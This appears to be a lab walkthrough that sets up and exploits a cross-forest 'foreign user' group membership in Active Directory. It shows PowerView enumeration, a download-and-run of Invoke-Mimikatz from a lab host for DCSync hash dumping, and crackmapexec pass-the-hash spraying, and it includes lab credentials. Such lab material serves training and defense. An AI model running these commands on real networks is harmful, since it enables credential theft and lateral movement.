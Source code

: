 # Foreign user

## Configuring

1. Login to `DC01` with the `Administrator` user and the password `Welcome01!`.
2. Open the "Active Directory Users and Computers" administration tool.

![](<../../.gitbook/assets/image (17).png>)

3\. Open the "Users" directory and right click it, then select "New" and then "Users".

4\. Create a new user with the name `secure_admin` and the password `rFKbUJrDu$sz*36ffKr6`.

![](<../../.gitbook/assets/image (22).png>)

5\. Make sure "Password never expires" is checked and "User must change password at next logon" is unchecked when creating the user.

6\. to `DC03` with the `Administrator` user and the password `Welcome01!`.

7\. Open the "Active Directory Users and Computers" administration tool.

8\. Open the "Users" directory and right click it, then select "New" and then "Group".

9\. Make a new group with the name `Local admin data` and select group scope "Domain Local".

![](<../../.gitbook/assets/image (77) (1).png>)

10\. Right click the group and select "Properties". Click on the "Members" tab and click on "Add"

11\. Click on "Locations" and select bank.local.

![](<../../.gitbook/assets/image (59).png>)

12\. Enter the username secure\_admin and click "Check Names" and then click "OK".

![](<../../.gitbook/assets/image (65).png>)

13\. Click "Apply" and then "OK".

14\. To make the group local admin to the DATA01 server there are two options

* Login to the machine and use the net command to add the group to the local administrators group.
* Deploy a GPO to make the group local admin on the machine.

15\. We will go with the first step since its just easier for the lab setup, but normally IT would deploy it with GPO. So login with the username Administrator and password Welcome01! to DATA01 and execute the following command:

```
net localgroup administrators "local admin data" /add
```

![](<../../.gitbook/assets/image (64).png>)

## Attacking

### How it works

If there is a trust between two forests, it is possible to add a user of domain A to a group in domain B. If for example this group gives local admin privileges to a system in forest B then after taking over that user it is possible to gain access to domain B using that account. Depending on the trust flow configured between the domains(one way or two way trust), they can both add other users or only one domain can add users.

Meaning that if you take over domain A you can easily access domain B by enumerating the groups which have a foreign user from domain A. I see this often used for having one admin account to manage both domains for example.

### Tools

* [PowerView](https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1)

### Executing the attack

This attack is executing from the perspective of already gaining Enterprise Admin privileges within the `bank.local` admin.

1. To easily execute the attack login on `DC01` with the user `Administrator` and the password `Welcome01!`.
2. Start PowerShell and load an amsi and PowerView into memory:

![](<../../.gitbook/assets/image (57).png>)

3\. With the PowerView cmdlet `Get-DomainForeigGroupMember` we can query the target domain for users in groups that aren't from their domain.

```
Get-DomainForeignGroupMember -Domain secure.local
```

![](<../../.gitbook/assets/image (44).png>)

4\. The output shows us that there is a foreign user in the `Local admin data` group and that the member is `S-1-5-21-320929719-844265543-1524670925-1602`.  To get the user name we can use the `ConvertFrom-SID` cmdlet from PowerView:

```
ConvertFrom-SID S-1-5-21-320929719-844265543-1524670925-1602
```

![](<../../.gitbook/assets/image (78).png>)

5\. The user `bank\secure_admin` from `bank.local` is member of `local admin data` in `secure.local`. We can also see this in bloodhound after collecting the data for both domains and loading it into the BloodHound GUI.

```
Invoke-BloodHound -Collectionmethod all -Domain secure.local
Invoke-BloodHound -Collectionmethod all -Domain bank.local
```

After clicking on "Users with Foreign Domain Group Membership" and selecting `Secure.local` under the "Dangerous Rights" section in the "Analysis" tab we see:

![](<../../.gitbook/assets/image (75).png>)

6\. Since we are already domain admin we could simply reset the password for the `secure_admin` user. But this isn't OPSEC safe, so we can execute a dcsync to grab its NTLM hash and then use it to spray against the other domain computers to check if the user has access to any machine. To execute the DCSync load MimiKatz into memory and use the following command:

```
iex (iwr http://192.168.248.2:8090/Invoke-Mimikatz.ps1 -UseBasicParsing)
Invoke-Mimikatz -Command '"lsadump::dcsync /user:bank\secure_admin /domain:bank.local"'
```

![](<../../.gitbook/assets/image (16).png>)

7\. The next step would be to spray this hash against all systems of the secure.local domain. But its just easier to spray it against the whole subnet with crackmapexec. To do this we use the following command:

```
cme smb 10.0.0.0/24 -u secure_admin -H a0f6b4d3c6a9da1204520ccd72e54597 -d bank.local
```

![](<../../.gitbook/assets/image (39).png>)

8\. The user `secure_admin` from `bank.local` is local admin to the `DATA01` machine from `secure.local`.

## Defending

### Recommendations

I would recommend to not add users from other domains in privileged groups if you don't FULLY trust the other domain to be secure. But this is a risk based decision to make.

### Detection



## References

{% embed url="https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1" %}
